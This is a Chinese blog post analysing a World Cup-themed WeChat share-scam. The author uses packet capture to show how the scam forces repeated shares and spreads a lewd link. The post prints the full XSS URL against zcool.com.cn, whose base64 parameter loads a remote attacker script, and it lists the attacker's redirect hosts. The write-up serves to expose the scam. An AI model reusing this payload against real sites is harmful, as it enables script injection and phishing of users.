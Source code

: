 

## 废话

在等着西班牙和俄罗斯的加时赛时，翻一翻朋友圈里一妹子分享了类似这样一条链接（下图是后补的，妹子知道后自己删了...）

![20180702_1](./images/20180702_1.jpg)

平时较少点开这种，但是这次因各种原因点开了（至于原因~自己猜 :joy: ），因此也就有了本文。



## 起疑

点开后是这样的

![20180702_2](./images/20180702_2.png)

习惯性的看了一下链接地址,来自h5.manhua.163.com,看着挺具有可信度的，差点就被蒙混过关了...

![20180702_3](./images/20180702_3.jpg)

按照上面的步骤一步步进行，到后面会连续让我分享并且最后还要分享到朋友圈，我还真就这样一步步的做了。。。

一共三个地方让我对此产生了怀疑（应该可以说四个，第四个后面再说）

- 一共需分享了4次，其中3次群，1次朋友圈，其中第三次分享会假装提示分享失败；（分享失败的提示是不能分享在同一个群，而我一直分享给同一个人）
- 全部操作完成之后会提示：请等待客服审核领奖，并且要求在朋友圈保持该分享24小时以便审核；（我当时第一反应就是：客服小姐姐得要加我微信么  :laughing:）
- 经过两次点开这个分享后，50%概率会出现第一次剩余的奖品数量小于第二次剩余的奖品数量，而我第二次打开就是那50%（很遗憾，我决定要抓包看看到底是什么鬼...）



## 抓包分析

抓包定位链接

![20180702_4](./images/20180702_4.png)

其中，上图的两个请求让我产生了好奇

```
http://api.tlwh.top/ceshi/jump.php
http://r-p-s-have.oss-cn-shenzhen.aliyuncs.com/go.js
```

点进去一看，这个jump.php返回的地址就是我们微信里看到的地址。。。

![20180702_5](./images/20180702_5.png)

再看go.js

![20180702_6](./images/20180702_6.png)

这些请求的Referer都是 `http://www.zcool.com.cn/...`

再看这个zcool返回的数据

![20180702_7](./images/20180702_7.png)

看到这里应该都了然了~

其实，该作者是利用www.zcool.com.cn的xss(**`http://www.zcool.com.cn/%05url.z52k7mbwq8?link=Ij4iPjxzdHlsZSBvbmxvYWQ9ImRvY3VtZW50LnRpdGxlPSfliqDovb3kuK0uLi4uJzt2YXIgcz1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzLnNyYz0nLy9yLXAtcy1oYXZlLm9zcy1jbi1zaGVuemhlbi5hbGl5dW5jcy5jb20vZ28uanMnO2RvY3VtZW50LmhlYWQuYXBwZW5kQ2hpbGQocyk7Ij4qe3Zpc2liaWxpdHk6aGlkZGVufTwvc3R5bGU+Cg==&from=singlemessage&isappinstalled=0` 这里link参数base64decode一下就很清晰里**)，然后请求了

http://r-p-s-have.oss-cn-shenzhen.aliyuncs.com/go.js 而这个go.js 继续利用ajax技术请求了http://api.tlwh.top/ceshi/jump.php ，如果ajax请求成功返回，我们的页面就会顺着返回的内容跳转过去。

就这样结束了？然而并不是...无利不起早嘛

之前说的第四个起疑，回头看自己分享到群(个人)

![20180702_8](./images/20180702_8.jpg)

这就尴尬了，还好没发到群里...不然岂不是大家都以为我秒射王了...

看来这顺带扩散上面羞羞的链接才是作者真正要做的...（这个链接里是什么暂放一放，先来分析一下他是怎么做到的）

按图索骥：

```
https://h5.manhua.163.com/%02%05%09%03%01%07%02%03%08%08%04%09%03%07%03%07%04%08source%14%16%11%14%19%16%16%11%13%13%15%15%11%14%18%13%15%11/5304164994120004248?id=Hjxz&remote=1&out=js&case=4g&_c=9527&now=1529634068
```

链接中`https://w-o-r-l-d.oss-cn-qingdao.aliyuncs.com/f.js`

![20180702_9](./images/20180702_9.png)

不一一截图了，依次请求顺序

```
w-o-r-l-d.oss-cn-qingdao.aliyuncs.com/j.js
w-o-r-l-d.oss-cn-qingdao.aliyuncs.com/secret.html
w-o-r-l-d.oss-cn-qingdao.aliyuncs.com/assets/appx3.js
api.tlwh.top/ceshi/dataapi.php [关键]
...
```

![20180702_11](./images/20180702_11.png)

![20180702_11](./images/20180702_13.png)



![20180702_10](./images/20180702_10.png)

格式化

![20180702_12](./images/20180702_12.png)

上面选中的就是关于秒射的分享描述（话说回头看比赛发现克罗地亚和丹曼都1:1了。。。射球怎么这么快。。。）

这里应该算是微信的bug了。。。

不继续水下去了，看球赛~看球赛~看球赛~

这个抓包记录，相关人员或感兴趣的小伙伴可以拿去研究

[burp data](https://github.com/fish0il/misc/blob/master/%E7%AE%80%E5%8D%95%E5%88%86%E6%9E%90%E5%88%A9%E7%94%A8%E4%BA%BA%E6%80%A7+XSS%E5%9C%A8%E5%BE%AE%E4%BF%A1%E6%9C%8B%E5%8F%8B%E5%9C%88%E4%BC%A0%E6%92%AD%E7%9A%84%E6%81%B6%E6%84%8F%E9%93%BE%E6%8E%A5/%E4%B8%96%E7%95%8C%E6%9D%AF%E7%AD%94%E9%A2%98%E8%B5%A2%E5%8F%96%E6%B5%81%E9%87%8F%E7%BA%A2%E5%8C%852.burp.data?raw=true)



##其它

涉及收款二维码

```
https://res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_reward_qrcode.2x3534dd.png
```

![pic_reward_qrcode.2x3534dd](./images/pic_reward_qrcode.2x3534dd.png)



最后想问一下这个不会是还在测试阶段吧？很抱歉~
